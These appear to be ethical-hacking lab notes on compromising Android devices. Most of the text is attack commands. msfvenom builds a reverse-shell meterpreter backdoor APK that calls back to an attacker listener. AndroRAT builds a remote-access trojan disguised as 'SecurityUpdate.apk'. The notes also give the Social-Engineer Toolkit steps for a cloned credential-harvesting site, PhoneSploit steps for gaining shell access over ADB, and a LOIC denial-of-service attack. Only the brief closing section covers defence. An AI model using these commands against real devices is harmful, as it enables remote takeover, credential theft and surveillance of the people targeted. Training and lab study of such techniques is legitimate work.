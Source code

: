 # Hacking Mobile Platform

## Hack android devices

- Hack an Android device by creating binary payloads using Parrot Security  
`msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R >Desktop/Backdoor.apk`

- Harvest users’ credentials using the Social-Engineer Toolkit  
setoolkit  
1 - Social-Engineering Attacks  
2 - Website Attack Vectors  
3 - Credential Harvester Attack Method  
2 - Site cloner  

- Launch a DoS attack on a target machine using Low Orbit Ion Cannon (LOIC) on the Android mobile platform  
    android app

- Exploit the Android platform through ADB using PhoneSploit  
`python3 phonesploit.py`  
3 - connect a new phone  
4 - access shell on a phone  
7 - screen shot a picture on a phone  

- Hack an Android device by creating APK file using AndroRAT  
`python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk`  
`python3 androRAT.py --shell -i 0.0.0.0 -p 4444`  

getSMS  
getMACAddress  

## Secure Android Devices using Various Android Security Tools

- Analyze a malicious app using online Android analyzers  
<https://www.sisik.eu/apk-tool>

- Secure Android devices from malicious apps using Malwarebytes Security  
andorid app
